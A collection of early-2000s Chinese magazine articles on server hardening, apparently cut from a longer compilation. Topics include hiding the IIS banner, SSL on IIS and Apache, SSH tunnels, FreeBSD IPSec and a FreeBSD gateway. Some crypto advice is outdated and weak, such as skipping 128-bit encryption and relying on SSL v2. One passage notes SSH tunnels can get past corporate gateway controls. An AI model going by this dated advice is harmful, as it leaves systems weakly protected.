第一次通过 HTTPS 进入站点的时候，会有一个对话框让我们确认是否同意当前证书，当然是要同意啦，如图 21。

好了，这个时候我们看这个网站的所有信息在网上就是以加密的方式来传送的了，任何人都无法再轻易了解其中的内容了。

下面给各位看看加密前和加密后的两幅 IRIS 的监听结果：

加密前，如图 18：


加密后，如图 19：


最后简单废话几句：加密过的 SSL 会比普通的没有加密的 Web 浏览慢一点，主要是因为加密的隧道额外还要占用一点 CPU 的资源。对于那些没有任何秘密可言的 Web 站点没有必要用加密的 SSL 通道，而对于那些重要的目录和站点才有这个必要性。

---

### IIS 的 Banner

#### 实现操作系统版本的隐藏

**文/SQL**

**编者按：** 黑客在攻击目标主机时，通常首先要对该主机进行操作系统的识别，所谓摸清情况，对症下药。每到此时，微软 IIS 的返回 Banner 都会很诚实地“配合”攻击者的请求，如实报告自己的身份及版本号，继而将自己的“老兄”——Win NT/Windows 2000 也一起招了出来“陪绑”。那么，如何让 IIS 这个“好孩子”学会自我保护呢？本文作者有办法——

构建高安全级别主机系统的时候，对于 NT 系统往往有一个很尴尬的地方就是，IIS 的返回 Banner 会很容易泄露当前主机上 NT 的版本。比如，我们可以简单地 Telnet 到对方的 80 端口，用 GET 命令来查看以下结果：

```http
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Wed, 31 Dec 1997 20:37:29 GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>The parameter is incorrect.</body></html>
```

又或者 FTP 过去，看到：

```text
Connected to 127.0.0.1
220 sgi Microsoft FTP Service (Version 5.0)
User (127.0.0.1:(none)):
```

Telnet 到对方的 25 端口去发信的时候，会出现：

```text
220 sgi Microsoft ESMTP MAIL Service, Version: 5.0
2195 4453 ready at Thu, 1 Jan 1998 04:47:48 +0800
```

看到没有？服务器会很老实地告诉我们，它是 IIS 5.0，结果全世界都知道它是 Windows 2000 了。也许你很费力安装防火墙，然后禁止了 ICMP 的数据包，但 IIS 的 Web、FTP、SMTP、NNTP 还是会很轻易地把秘密给泄露出去。现在很多漏洞扫描和安全评估系统也会根据服务器所返回的标志来自动判断服务器的版本，然后从后台调用相应的漏洞资料数据库来调整下一步的扫描策略，最后在报告里还要告诉我们，这是属于低风险的安全漏洞，实在是可恶。

其实，虽然在 IIS 的管理器里面并没有提供给我们修改和隐藏 Banner 的工具，我们还是可以通过修改相应的 DLL 文件来实现的，当然这需要一点小技巧，可是并不复杂。

首先，我们需要知道存放 IIS Banner 的 DLL 文件都是放在 `C:\WINNT\SYSTEM32\INETSRV\` 目录下面的，其中对应关系是：

- Web 是 `C:\WINNT\SYSTEM32\INETSRV\W3SVC.DLL`
- FTP 是 `C:\WINNT\SYSTEM32\INETSRV\FTPSVC2.DLL`
- SMTP 是 `C:\WINNT\SYSTEM32\INETSRV\SMTPSVC2.DLL`

我们可以用 UltraEdit 将它们打开，然后查找我们想要找的 Banner 的关键字，例如，IIS 的 Web 就要找：`Microsoft-IIS/5.0`（见图 1）。


然后直接修改成我们想要的样子，这个可以随你高兴了，然后保存就好。

需要注意的是：

1. 在修改的时候，请停止 IIS 的服务，可以用 `iisreset /stop`。
2. 由于 Windows 2000 系统后台的文件保护机制的作用，系统一旦发现重要的 DLL 文件被修改后，就会尝试用 `%SYSTEMROOT%\system32\dllcache` 目录下的备份文件来进行恢复，所以在修改前，我们还需要事先删除 `%SYSTEMROOT%\system32\dllcache` 目录下的同名文件。


但我还是比较喜欢自己来修改 DLL 文件，感觉这样的自由更大一些，可以改的地方也更多。修改以后的 Banner 成了以下这个样子：


当然，除了以上的手动修改以外，还有人写过一个相应的小工具来完成这件事情，使用和操作上就更简单了。下面给大家介绍一下（见图 2、图 3 和图 4）。


由上可以发现，修改后的 Banner 已经不再出现 Microsoft-IIS/5.0 的字样了。

不过老实说，想要完全隐藏还是不太现实，依我来看，IIS 和 APACHE 返回的代码格式实在是差得太远了：


这些小工具可以从我的站点下载，使用上没什么可说的。需要注意的是，先要自己事先停止 IIS 服务，删除 DLLCACHE 里的备份文件。

完成后，Windows 会出来一个对话框告诉你，系统文件被更改，需要安装光盘恢复。不用理它，点取消就好了（见图 5、图 6）。


好像是非常杂乱无章的，有经验的入侵者还是可以通过这些辨认出来哪些是经过修改后的 IIS。其他 FTP 和 SMTP 的修改部分一样，这里就不再多说了。总结一句：不要轻易泄露你的系统信息，对于真正的入侵应尽量拖延和扰乱入侵者的视线。


### 构建一个安全的 Apache

### 一、简介

本文要说明的是如何将 Apache 与 SSL (Secure Socket Layer) 结合起来安装配置。众所周知，在网络上以明文传递敏感信息是相当不安全的，因此 SSL 提供了一种加密手段，在底层上为上层协议提供服务和加密方案，因此当用户在以 HTTP 协议传输数据时，窥探者将难以获取数据的信息。当然加密只是在传输过程中的，对用户是完全透明的。

Let's go!

### 二、准备工作

如果你的系统是从头装起的话，建议你留出一个叫 `/chroot` 的分区用来运行 Apache。至于这个分区的大小，取决于你自己。一般来说，一个普通的网站有 40M 也就够了。但你的系统如果早就运行了 Apache，你可以另外开辟一个分区，或者选择不用独立分区来安装，仅仅在根下面开一个目录。

另外，我假定你的系统已经通过了一定的安全检测——在安装 Apache 之前（如果有其他漏洞存在的话，你认为运行在其上的 Apache 会怎样？所谓覆巢之下，焉有完卵！），检测至少要包括（但不仅限于）——移除不安全的 SUID 程序、升级某些守护进程、去掉不必要的服务。还假定你的 Web Server 是运行 TCP/IP，而且有自己的地址。

### 三、平台

- 以下测试都在下列平台下通过：
  1. Slackware 4.x distribution using gcc 2.7.2.3 and Perl v5.005_02
  2. Solaris 7 on Sparc using gcc v2.8.1 and Perl v5.005_03

### 四、获取所需要的软件

因为 Apache 并没有在它的包里自带 SSL，因此我们必须先下载到这些加密网页所必需的部分：

- 1. Apache Web Server – http://www.apache.org/dist/
  不必多说，我们当然需要获得这个 Web Server，现在的版本是 1.3.11，Apache 是现在世界上使用最广泛的 Web Server。

- 2. mod_ssl – http://www.modssl.org
  这是一个为 Apache 1.3.x Web Server 提供强力加密的软件模块，它使用的是 SSL v2 和 v3 以及 TLS (Transport Layer Security) v1 协议。该软件包是在 BSD 的 license 下开发的，在非商业的情况下，你可以自由地使用它。要判断该使用哪一个版本的 mod_ssl 很简单，它的版本号是一格式的，也就是说，你如果用的是 1.3.11 的 Apache，那么就该用 2.50-1.3.11 的 mod_ssl。

- 3. mod_perl – http://perl.apache.org/dist/
- 4. Open SSL – http://www.openssl.org
  这一软件包提供了 SSL v2/v3 (Secure Sockets Layer) 及 TLS v1 (Transport Layer Security) 协议的加密保护。

- 5. RSAref – 用搜索引擎查找一下 “rsaref20.tar.Z”，就能找到了。

我们将把这些程序安装于 `/usr/local` 目录下，增加功能模块可以给 Apache 更强大的功能。如果你需要更多模块的话，自己去获得它并且加载，比如 `mod_php` 这一模块也是现在流行的，可以使 Apache 提供 php 脚本支持……

### 构建一个基于 SSL 的安全 Web 网站

文／郑陆军

本文着重讲述如何将自己的网站配置成一个基于 SSL 的 Web 站点，本文假定系统环境为 Windows 2000 Advance Server，并已经运行 IIS 5.0，同时，假设要配置服务器的 IP 地址为 120.10.10.11。

### 安装安全

一般来说，商业上正规的安全认证证书是由专门的安全认证中心统一颁发的，这种证书需要申请，而且要花钱购买。幸运的是， Windows 2000 的标准组件中提供了“证书颁发机构”组件，不用犹豫，马上安装该组件，让自己的计算机也成为安全认证中心，来颁发安全认证证书。

1. 从“开始→设置→控制面板→添加／删除程序→添加／删除 Windows 组件”，进入“Windows 组件向导”。
2. 选中“证书服务”，系统会提示“安装证书服务后，不能重命名计算机，并且计算机不能加入域或从域中删除，要继续吗？”选择“是”（若要重命名计算机、加入域或从域中删除，要重新安装证书颁发机构），单击“下一步”。
3. 在此后选择“独立根 CA”，输入 CA 名称（假设为“myCA”），逐步完成安装。

安装完成后，还需进行必要的配置：

1. 从“开始→程序→管理工具”进入“证书颁发机构”；
2. 鼠标选中“myCA”，按鼠标右键选择“属性”，进入“myCA 属性”窗口；
3. 选择“策略模块”，按下“配置”按钮，进入“属性”对话框；
4. 在“默认操作”项选择“始终颁发证书”；确认后，按提示重新启动，证书服务就完成配置了。

### 获得安全证书

在向“证书颁发机构”申请安全认证证书之前，要先生成申请文件，然后用此申请文件向“证书颁发机构”申请安全认证证书。具体操作步骤如下：

1. 从“管理工具”进入“Internet 服务管理器”。
2. 启动“Internet 信息服务”（假设要设置为安全 Web 站点的名称是“默认 Web 站点”），找到“默认 Web 站点”，按鼠标右键选择“属性”。
3. 在“默认 Web 站点属性”对话框中进入“目录安全性”项目，单击“服务器证书”按钮进入“IIS 证书向导”对话框。
4. 选择“创建一个新证书”，然后单击“下一步”逐步完成创建，最后生成证书申请文件 `c:\certreq.txt`。

另外，还需要建立一个新的站点用于证书发布（假设：取名叫“证书发布”，IP 地址为 120.10.10.11，端口为 85），该站点的主目录需要指向 `C:\WINNT\system32\certsrv`。

在配置好安全证书发布主页后，接下来就可以用它来发布证书了：

1. 打开 `c:\certreq.txt` 文件，用 Notepad 或其他文本编辑工具打开，选定全部内容并拷贝到剪贴板。
2. 打开 IE，在地址栏输入 `http://120.10.10.11:85` 并确认，根据网页的提示单击“下一步”按钮，逐步完成申请。具体过程为：申请证书→高级申请→使用 Base64 编码的 PKCS #10 或 PKCS #7 文件更新证书申请。在文本输入框中将 `c:\certreq.txt` 的内容（已复制到剪贴板）粘贴进去并提交，选择 Base64 编码，然后下载 CA 证书并保存为 `c:\certnew.cer`。

接下来，安装下载的服务器证书：

1. 在“默认 Web 站点属性”对话框中进入“目录安全性”项目；
2. 单击“安全通信”栏中的“服务器证书”按钮进入“IIS 证书向导”对话框；
3. 选择“处理挂起的请求并安装新证书”，然后单击“下一步”；
4. 输入证书的路径 `c:\certnew.cer`，如果一切顺利，就安装好证书了。

申请过程中分别选择：申请证书→用户证书申请（选择“Web 浏览器证书”）→输入在证书中出现的标识信息（至少要输入名称）→您申请的证书已发布给您（点击“安装此证书”）→您的新证书已经成功安装。当用 IE 再一次访问 Web 服务器时，会弹出“客户端身份验证窗口”，在该窗口内选择刚才安装的客户证书，然后确认，就可以正常访问服务器了。

### SSL 的应用

在应用 SSL 之前，还有一项工作要做，需要设置 Web 的安全通信属性：

1. 在“默认 Web 站点属性”对话框中进入“目录安全性”项目；
2. 单击“安全通信”栏中的“编辑”按钮进入“安全通信”对话框；
3. 选择“申请安全通道（SSL）”和“接收客户证书”然后确认。这样的配置要求客户端必须使用 SSL 安全通信。在一般情况下，用户可以根据自己的需要自由配置“默认 Web 站点”内的每一个虚拟目录或文件的安全通信属性以及是否强制客户端必须使用 SSL 传输。

在 Web 的安全通信属性设置中，不同的配置选项会对客户端有不同的要求：

如果不选择“申请安全通道（SSL）”，则允许客户端可以选择是否使用 SSL 加密传输，即使用加密方式访问 `https://120.10.10.11` 或不加密方式访问 `http://120.10.10.11`，可以由客户端自己选择。如果选择了“申请安全通道（SSL）”，则要求客户端必须使用 SSL 加密传输，即必须使用 `https://120.10.10.11` 的形式。选择“申请 128 位加密”，要求客户端的浏览器必须支持 128 位的加密强度。建议不要选择该项，因为一般的浏览器支持的是 56 位的加密强度，而且系统帮助文件里提到 128 位加密技术只限制在美国本土和加拿大使用，不向其他国家出口。

当 Web 服务器的安全通信属性配置为“申请安全通道（SSL）”和“申请客户证书”后，客户端以 Https 的形式访问该 Web 时，会被提醒需要选择一个已经安装的客户证书，如果没有客户证书或者没有服务器信任的客户证书，都不能访问。客户证书是服务器判断客户端是否可信任的依据，用来防止不被信任的客户端访问该服务器。申请和安装客户证书的具体步骤为：打开 IE，在地址栏输入 `http://120.10.10.11:85` 并确认，根据网页的提示单击“下一步”按钮逐步完成申请。

应用 SSL 传输网上信息后，可以保证信息的安全，但是网站的速度会受影响，因为加密是需要花时间的。本文所讲述的例子是将整个站点都配置为要求 SSL 传输，也就是说，访问的所有文件都是加密传输的。实践中建议 SSL 安全传输只使用在一些关键信息的传输上，比如验证用户名、密码（口令）或其他需要保密的信息等，一般的信息可以正常传输。这样分配后，网站速度几乎不受影响。

### 在 SCO 的一个网卡上面绑定多个 IP 地址的方法

文／古董大叔

在 SCO UNIX 系统中，多 IP 地址的设置是通过网络接口的别名地址来实现的。具体步骤如下（举例为 net0 网卡的 IP 地址为 192.168.1.2，掩码为 255.255.255.0）：

1. 编辑 `/etc/tcp` 文件，`vi /etc/tcp`。
2. 找到包含网卡设备文件名 net0 的 `ifconfig` 命令行。
3. 通过在命令行后添加 `ifconfig` 命令行来为该网卡设置其他的 IP 地址（即第二个 IP 地址、第三个 IP 地址……）。若设置该网卡的第二个 IP 地址为 `192.168.1.3`，掩码为 `255.255.255.0`，则可添加如下行：

```bash
ifconfig net0 alias 192.168.1.3
netmask 255.255.255.0
broadcast 192.168.1.255
perf 24576 24576 1
```

4. 执行 `reboot` 命令，重新启动机器。
5. 用 `netstat -rn` 命令列举地址信息。
6. 用 `Ping` 命令测试网络连通性。

配置不同网段的地址原理一样，需要将 broadcast 修改成不同的广播地址，同时需要添加路由来访问不同网段。


### 用 SSH 建立安全网络通道

SSH 是一个用来替代 Telnet、FTP 以及 R 命令的工具包，主要是想解决口令在网上明文传输的问题。为了系统安全和用户自身的权益，推广 SSH 是非常必要的。

文/SQL

传统的网络服务程序，如 FTP、POP 和 Telnet 在本质上都是不安全的，因为它们在网络上用明文传送口令和数据，别有用心的人非常容易就可以截获这些口令和数据。而且，这些服务程序的安全验证方式也是有其弱点的，就是很容易受到“中间人”（man-in-the-middle）这种方式的攻击。所谓“中间人”的攻击方式，就是“中间人”冒充真正的服务器接收你传给服务器的数据，然后再冒充你把数据传给真正的服务器。服务器和你之间的数据传送被“中间人”一转手做了手脚之后，就会出现很严重的问题。

SSH 的英文全称是 Secure SHell。通过使用 SSH，你可以把所有传输的数据进行加密，这样“中间人”这种攻击方式就不可能实现了，而且也能够防止 DNS 和 IP 欺骗。还有一个额外的好处就是，传输的数据是经过压缩的，可以加快传输的速度。SSH 有很多功能，它既可以代替 Telnet，又可以为 FTP、POP 甚至 PPP 提供一个安全的“通道”。

### SSH 安全验证的工作原理

从客户端来看，SSH 提供两种级别的安全验证。

**第一种级别（基于口令的安全验证）**只要你知道自己的账号 and 口令，就可以登录到远程主机。所有传输的数据都会被加密，但是不能保证你正在连接的服务器就是你想连接的服务器，可能会有别的服务器在冒充真正的服务器，也就是受到“中间人”这种方式的攻击。

**第二种级别（基于密钥的安全验证）**需要依靠密钥，也就是你必须为自己创建一对密钥，并把公用密钥放在需要访问的服务器上。如果你要连接到 SSH 服务器上，客户端软件就会向服务器发出请求，请求用你的密钥进行安全验证。

收到请求之后，先到你在该服务器的 home 目录下寻找你的公用密钥，然后把它和你发送过来的公用密钥进行比较。如果两个密钥一致，服务器就用公用密钥加密“质询”（challenge）并把它发送给客户端软件。客户端软件收到“质询”之后，就可以用你的私人密钥解密，再把它发送给服务器。

用这种方式，你必须知道自己密钥的口令。但是，与第一种级别相比，第二种级别不需要在网络上传送口令。第二种级别不仅加密所有传送的数据，而且“中间人”这种攻击方式也是不可能的（因为他没有你的私人密钥），但是整个登录的过程可能需要 10 秒。

我之前写过文章介绍如何在 IIS 下利用 SSL 来加密 Web 的传输通道，由于常见的 HTTP、FTP、POP3、SMTP、NNTP、Telnet 等很多协议都是利用明文在网络中来传递信息的，内部网络的攻击者可以很容易监视到你的整个会话过程，包括用户名、密码、邮件内容等等，现在很多内部网络的审计系统和 IDS 也都可以实现对应应用层的信息还原，简直是没有安全可言了。现在比较流行使用的工具是 SSH2， SSH2 不仅支持对于用户名和密码加密的传输，而且可以实现公钥认证机制。客户端与 SSH2 服务器连接时，会自动收到服务器端的公钥，在验证时使用这把公钥对用户名和密码加密，服务器用自己的私钥解密并进行比较，来证明用户是否输入了正确的密码；如果采用公钥验证，客户端自己要生成一对密钥并把公钥传到服务器上，里面指定客户端的公钥名字，这种方法比前面的还要安全。

好了，由于在 Windows 系统下 SSH 不是默认就有的安全配置，所以我们需要安装一些第三方的软件来实现我们需要的功能。其实 NT 下的 SSH 服务软件也有不少产品，我给大家介绍一个我认为最好的东西出来吧，就是 VShell 这款软件（图 1）。安装其实非常简单，一路 NEXT 下来就 OK 了，没有需要特别注意的地方。第一次启动的时候，程序会要求我们生成一个随机产生的密钥。


图 1

步骤其实也很简单，我们只要按照向导的要求一步一步地来就可以了。SSH1 使用的是 RSA 的加密方式，到了 SSH2 以后就是 DSA 加密方式了。密钥的长度当然就选 1024 位（图 2），是目前非常安全的长度。随机密钥的生成是根据我们的鼠标在屏幕上随便乱晃的时候产生的随机位置而生成的，所以你需要不停地晃动你的鼠标，一直到密钥全部生成为止，生成的密钥保存在系统本地硬盘。


图 2

SSH Server 的配置很简单，几乎不再需要我们额外去做什么设定了，程序自动在 NT 系统下注册为系统的服务进程来存在。有几个注意的地方值得说明：Compression 是压缩选项，很多人说利用 SSH 进行 SFTP 传输的时候速度有时不会因为 SSH 的加密传输而减低反而会提高，其实就是利用 SSH 通道的数据压缩传递的功能。这个选择默认是打开的（图 3）。

VShell 里还有个地方可以设置用户的访问权限，VShell 是采用 NT 下的 User 组为自己的用户密码，和 NT 下用户密码是一样的，我们在这里可以设置哪些用户和用户组有访问执行端口通道等等功能的权限（图 4）。


图 3


图 4

SFTP 是 SSH2 协议中一个可以替代传统 FTP 协议的一个应用，它是利用 22 端口的 SSH 加密隧道来传递文件的（图 5）。


图 5

图 6 是根据 IP 地址来做访问设置策略的地方。服务器设定好了以后，我们就来介绍下 SSH 的客户端软件。在 NT 下也有很多出色的 SSH 客户端软件可以使用，就功能来说，我推荐的是 F-Secure 的 SSH 客户端，安装很简单，不用过多介绍，直接看看它的使用界面好了。

图 6

成功完成后，看着出来的界面是不是和以前的 Telnet 的界面是一模一样呢（图 9），本来 SSH 就是用来代替 Telnet 出来的协议嘛，所以当然是一样了。

SSH Client 启动以后，我们直接选择 Quick Connect 来启动连接对话框，填入我们需要连接的 IP 地址，用户名以及 SSH 使用的端口默认 22，如图 7，但是根据远程 SSH 服务器的设置可以改变，我建议应该更改到一个不为人知的秘密端口这样比较安全。

图 9

图 7

F-Secure 支持 3 种模式的连接，第二种就是所谓的 SFTP 了。用 22 端口的 SSH 连接隧道来进行文件的传输，整个过程中，远程只有一个端口工作，即 22。与传统的 FTP 的主动被动需要两个端口来工作是不一样的模式，所以非常安全，也容易控制。可惜的是 F-Secure 的 SFTP 模式目前对于中文文件名支持得都不是太好；后来我采用和 VShell 同一家公司的 Vandyke 产品 SecureFX，这款 SFTP 的软件对中文支持相当好，让我很是满意（图 10）。

第一次连接过去以后，有点像 SSL 的连接，也需要我们同意接受远程主机的 KEY 文件保存到本地。

认证完成后，我们需要提供远程主机的 Administrator 用户的密码来确定我们的身份（图 8）。

图 10

图 8

最后一种也是 SSH 最最重要的一个功能就是 Tunneller 工作模式了（图 11），这是使 SSH 应用更为广泛的一种很有用的工作模式。

### SSH 的一些特殊用途

SSH tunnel：SSH 隧道，用作加密数据管道传输各种信息。

### 1. 简介

大多数人知道 SSH 是用来替代 R 命令集；是用于加密的远程登录、文件传输、甚至加密的 FTP (SSH2 内置)，因此 SSH 成为使用极广的服务之一。不仅如此，SSH 还有另一项非常有用的功能，就是它的端口转发隧道功能。利用此功能，让一些不安全的服务，如 POP3、SMTP、FTP、LDAP 等等通过 SSH 的加密隧道传输，然后，即使这些服务本身是不安全的，密码和内容是明文传送的，现在其他中间媒介也没法监听了。

### 2. 图示

SSH 的加密隧道保护的只是中间传输的安全性，使得任何通常的嗅探工具软件无法获取发送内容。如图 12 所示。假设客户端和服务器都运行 SSH，且以 POP3 为例。

图 12：正常的 POP3 连接是客户 C 向服务器 S 进行连接，C 的设置是 POP3 服务器为 S。

图 13：用 SSH 隧道的话，客户 C 设置 POP3 服务器为自己 (localhost)，然后设置 SSH 加密隧道；如果设置在同样的端口 110 听取 C 的请求，则对 C 来说，POP3 服务器是自己本身，端口也是 110。对 S 来说，看到的 POP3 请求地址不是来自 C，而是自己本身，因为有了 SSH 隧道。

这里可以看到我简单建立了两个通道 25 和 110，显然是为我的邮件安全传输来做的通道。

然后，在我的邮件客户端 OE 里面把 SMTP 和 POP3 服务器的地址都改为指向自己的 IP 地址 127.0.0.1 就可以了（图 14）。

不知道大家明白了没有，这样以后，我的内部邮件服务器 192.168.69.220 上同时运行邮件服务器和 SSH 服务器，然后在客户端和 SSH 建立安全的通道连接以后，就可以把收发邮件的数据包封装在 SSH 的安全隧道中传递到远程 192.168.69.220 的服务器上，由 SSH Server 帮助我把数据包重新还原出来，完成和邮件服务器的本地交互过程。这样，网络中即使有攻击者在接线窃听，也无法知道我到底在做什么。当然，我上面只是用邮件系统来做个说明，实际使用过程中你可以把它应用到很多协议的使用上。

SSH 的隧道功能实在是一个非常不错的扩展功能，换个角度想想，它利用一个端口来封装其他端口的数据，而且又是利用的普通人无法看到的加密隧道，这些其实也可以被利用来在内网网络突破访问限制来使用，比如一个公司的内部网络只允许员工访问远程的 80 端口，并且在网关位置装了信息审查软件的话，SSH 的隧道就可以被利用来突破这种限制了。

#### 结束语

说了这么多，可能很多人还不是很明白 NT 下 SSH 的作用，那就自己亲自装上一个来实地测试一下吧。最后要说的就是，SSH 由于采用加密隧道对于速度来说还是有些影响，对于不重要的地方，不推荐采用这种额外的加密机制。

Windows 下除了用关闭对应服务的方法来关闭某一端口外，我们还可以使用 IPSec 这一功能来限定特定端口的进出访问。那么，在 UNIX 系统下 IPSec 有什么作用呢？本文就提供你一个 UNIX 下 IPSec 的使用例子。

### 在 FreeBSD 之间建立 IPSec 隧道

原著／Mike DeGraw-Bertsch
翻译／无用君

IPSec 是一种 IP 安全措施，它在 IP 数据包层内对 Internet 数据流进行加密和验证，这代表着像 SMTP 这种不安全的协议都可以被它进行安全加固。IPSec 是 IPv6 内置的，在 IPv4 中则是可选的。

IPSec 是由两个关键部分组成的：鉴定报头（AH）和封装安全性协议（ESP）。AH 提供了鉴定功能，校验数据包的发送者是不是真的和数据的内容是不是与他们发送的内容吻合。ESP 加密了数据包的有效载荷，并且可以同时提供鉴定服务（想了解更多关于使用 ESP 的鉴定功能，请访问 IPSec working group: http://www.ietf.org/html.charters/ipsec-charter.html）。

ESP 和 AH 都可以在传输模式和隧道模式下使用。传输模式提供了两个终端之间的安全维护，而隧道模式则提供了一个类似 VPN 的安全维护（VPN—虚拟专用网—允许离站用户安全地访问其他的网络）。在传输模式中，数据包的有效载荷（例如在 AH 中，是头文件中的不可变的一部分，比如数据包来源地址）被数字签名或者安全加密。这个数据包然后会被送到它的目的地去，在目的地中，它会被再次验证和解密，随后它就可以被当作是正常的数据包处理了。传输模式在两个主机当中经常被使用。不过因为原始 IP 的问题，传输模式中的数据包无法通过 NAT 网络。

在隧道模式中，AH 或者 ESP（有时候是两个同时）对整个数据包进行安全保护，并把结果当作是新数据包的有效载荷。这个数据包被送到隧道的另一边，然后在那里被验证和解密。原始的数据包然后被视为正常的数据包来处理，并且，如果适当的话，它还会被送往最终目的地。隧道模式明显在两个路由器或者多个主机和路由之间非常有用。因为原始数据包是完整地被处理的，所以隧道模式 ESP 可以通过 NAT 网络。

隧道模式 ESP 是一个非常好的给网络中不安全的部分带来安全的办法。例如，我是在我起居室里的手提电脑上写这篇文章的，因为 WEP 基本上没有什么用处，所以所有在我的手提电脑和 Internet 之间的数据都是先加密然后通过隧道达到我的访问点（一台 FreeBSD 机器）。这样一来，没有人可以在空中看到我的数据，这样同时保证了没有任何其他的人可以使用我的无线连接。

### 一、设置 IPSec

#### 1. IKE

首先，你必须配置两台主机来使用 Internet Key Exchange（Internet 密钥交换）。IKE 是一个使 IPSec 交换它的加密密钥的过程更安全和更自动化的协议。在 FreeBSD（和 NetBSD），IKE 是被 Racoon 守护进程所控制的。Racoon 在 FreeBSD 和以后的版本中都是标准的。为了确保兼容性，确定两台主机都运行着相同的版本——从 `/usr/ports/security/racoon` 里安装 racoon。

Racoon 的安装文件在默认情况下是在 `/usr/local/etc/racoon` 目录中，并且由 `racoon.conf` 和 `psk.txt` 文件组成（不过在第一次安装时，你需要把它们从 `.dist` 格式文件中拷贝出来）。我们基本不需要对 `.conf` 文件做任何修改，不过你可能需要修改一下 lifetimes 值（使用 `lifetime time xxx <min|sec|hour>` 格式来做修改）。Lifetime 的值越小，连接的安全性就越高。不过，太小的 lifetimes 值会导致 CPU 占用率过高而造成系统崩溃，所以这个值要经过反复实验才能定下来。

这里最重要的文件是 `psk.txt`。这个文件应该被 `chmod 600` 并由 Root 拥有，要不然 Racoon 将无法读取它。这个文件包含了预置密钥（Pre-shared key），这是一些共享的秘密信息，它允许 Racoon 设置它的初始连接。

现在是进行实际设置的时候了。我们将在隧道服务器 mason (10.0.0.2) 和隧道客户端 glion (10.0.0.77) 之间建立一条安全隧道。它们的预置密钥是 `macplusbsdcool`。在 mason 上，`psk.txt` 应该是这个样子：

```
10.0.0.77    macplusbsdcool
```

在 glion 上是一样的：

```
10.0.0.2    macplusbsdcool
```

现在在两台主机上启动守护进程：

```
/usr/local/sbin/racoon -f /usr/local/etc/racoon/racoon.conf -l /var/log/racoon.log
```

#### 2. 策略

现在两台主机已经准备好交换密钥了，但它们还不知道它们需要交换密钥。所以最后的一步就是设置两台主机上的 IPSec 安全策略——用来告诉主机如何和什么时候应用 IPSec 的规则——使用 Setkey 命令。Setkey 可以提取一个文件或一行命令的输入。因为我们可能以后还要用到这个隧道，所以我们把所有的安全策略都输入到一个文件里，然后放进 boot 里，并通过命令 `setkey -f /etc/ipsec.rules` 来执行它（如何将 Racoon 和 Setkey 载入 boot 中是给读者的一个小测验，大家自己回去试试，这里是一个提醒：`/usr/local/etc/rc.d/`）。

建立隧道的时候，我们希望所有的客户端数据包都被 mason 加密。在服务端上，所有到 glion 的数据包都必须是被加密过的。这样一来，在 glion 上的配置文件应该是这样的：

```
spdadd 10.0.0.77 0.0.0.0/0 any -P out ipsec esp/tunnel/10.0.0.77-10.0.0.2/require;
spdadd 0.0.0.0/0 10.0.0.77 any -P in ipsec esp/tunnel/10.0.0.2-10.0.0.77/require;

# mason 上的配置
spdadd 0.0.0.0/0 10.0.0.77 any -P out ipsec esp/tunnel/10.0.0.2-10.0.0.77/require;
spdadd 10.0.0.77 0.0.0.0/0 any -P in ipsec esp/tunnel/10.0.0.77-10.0.0.2/require;
```

这些安全策略都应该很容易读懂。`Spdadd` 说明你要添加一条新的 IPSec 规则；`Any` 表示这个规则可以应用于任何协议；`Out` 和 `in` 是数据包传播的方向。最后，`esp/…/require` 指定了内核应该以隧道模式来使用 IPSec，并且将所有从第一个 IP 到第二个 IP 的数据包进行隧道。

如果想使这个策略应用于 IPv6 的话，只需要将地址改成 IPv6 的地址就可以了。

使用上面所述的 Setkey 命令在两台机器上应用这个策略。

### 二、测试

在两个主机上同时运行了 Racoon，并且设置好所有的安全策略后，从其中一台主机上 ping 另外一台主机。如果都设置对了的话，那么应该会有一点小小的暂停，然后你就会看见成功的 pings 信息。

为了确定你的连接是使用的 IPSec，在客户端上运行 tcpdump 程序。

现在去访问一些在隧道服务器之外的网站——这样可以确定是否所有的连接都是使用了隧道。你应该看到这样的输出：

```
13:58:39.045831 glion > mason: ESP(spi=0x099e806d, seq=0x723)
13:58:39.046566 mason > glion: ESP(spi=0x0d8d15b6, seq=0x6b2)
13:58:39.187444 glion > mason: ESP(spi=0x099e806d, seq=0x724) (frag 64877:1480@0+)
```

如果你看到任何 non-ESP 的数据流，那么就说明你的设置有问题。检查你客户端的目的地址是 0.0.0.0/0。如果你看不到任何 ESP 数据流，那么你的设置明显有问题。此时，要确定你的安全策略在客户端和服务端上是否协调；检查两台机器上的 `psk.txt` 文件，确定密钥是相同的，并且确定 IP 地址是否正确。如果所有的东西都检查过了，去看看 `/var/log/racoon.log` 里是否有什么问题。

另外给你个警告：如果重启动其中一台主机，然后突然出现了连通性问题，用 `setkey -F` 刷新两台主机上的密钥。因为有可能密钥无法进行同步。

### 利用 FreeBSD 组建安全的网关

文／iceblood

> 小编寄语：iceblood 这家伙最近一直在研究用 FreeBSD 建服务器，小编我当然不会放过他，写稿子是免不了的了。别看 iceblood 平时不爱说话，挺内向的，可一聊起他熟悉的技术就会露出嚣张的一面，他对他组建的 FreeBSD 网关安全性很有自信。看看下面他写的文章，希望各位网管仁兄和黑客老弟一起给他找找漏洞。

FreeBSD 在网络服务器的领域里占有一席之地，不管是在高端应用，还是小型企业里，使用 FreeBSD 做服务器都是不错的选择。但是如何才能建立一个安全的网络呢？

我们来做一个这样的假设：某公司有两台服务器，需要建立一个以 FreeBSD 为平台的网关，并且还能提供电子邮件、DNS、Web 等服务，看起来好像很简单，然而要建立一个安全性高的却不简单。在此我为大家介绍我的做法。首先我凭着自己对 FreeBSD 的熟练程度，做了一个设计，如图 1 所示：

由于 Gateway 是一个与 Internet 直接连接的服务器，遭受的攻击自然也是最多的，所以也是最危险的。由于该服务器担任着公司的网关，该服务器只要一出问题，也将影响到全公司。为了稳定和安全，我考虑该服务器要跑的服务越少越好。服务越少，那么漏洞出现的可能性也越少。而 WWW 服务器由于放在了 Gateway 里面，受 Gateway 的保护，所以一般来说遭受的攻击比较少，也可以满足足够多的服务。但是这些服务怎么样才能让 Internet 上的人访问呢？这就是下面我们要详细介绍的。

图 1 是我为该公司设计的网络结构图。现在我们来分析一下。由于 Gateway 是一个与 Internet 直接连接的服务器，遭受的攻击自然也是最多的，所以也是最危险的。

我们来安装 Gateway。Gateway 要使用的 Internet 的 IP 为 x.x.x.x，网卡为 xl0，内部 IP 为 192.168.0.1，网卡为 xl1。由于 Gateway 起到网关的作用，FreeBSD 又带了一个 ipfirewall 防火墙，我们当然要利用上了，首先编译内核：

```bash
cd /sys/i386/conf
cp GENERIC ./kernel_IPFW
```

